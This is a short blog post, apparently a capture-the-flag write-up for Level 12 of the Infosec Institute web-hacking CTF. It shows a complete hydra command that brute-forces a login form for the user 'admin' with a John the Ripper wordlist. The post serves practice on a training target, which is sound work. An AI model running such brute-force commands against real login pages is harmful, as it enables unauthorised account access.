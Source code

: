 ```yaml
---
layout: page 
title :  Infosecinstitute CTF 2 - LEVEL 12
categories : [security, CTF]
---
```


This will be solution for Level 12  [Practical Web Hacking](http://ctf.infosecinstitute.com "Practical Web Hacking") CTF #2. 

In this level unfortunately we have a very realistic example of how easy it is to bruteforce web applications, our objective is to try to bruteforce a login and password.
The procedure is very simple we need to collect the information that would allow us to execute the requested as if it were made by the browser.

## Tasks
1. Collect input names.
3. find the sugested wordlist.
2. setup hydra.


The world list suggested is a very known from john ripper, so we set our brute force application with the following.

{% highlight bash %}
	hydra ctf.infosecinstitute.com http-form-post \
	"/ctf2/exercises/ex12.php:username=^USER^&password=^PASS^&logIn=Login:\
	Incorrect username or password combination" \
	-l admin -P password-2011.lst -t 10 -w 30 -o logins.txt 
{% endhighlight %} 


![hydra]({{ site.url }}/assets/level12-01.png)

Success!

## Video
<iframe width="560" height="315" src="//www.youtube.com/embed/qXe7Qxxhbsk" frameborder="0" allowfullscreen></iframe>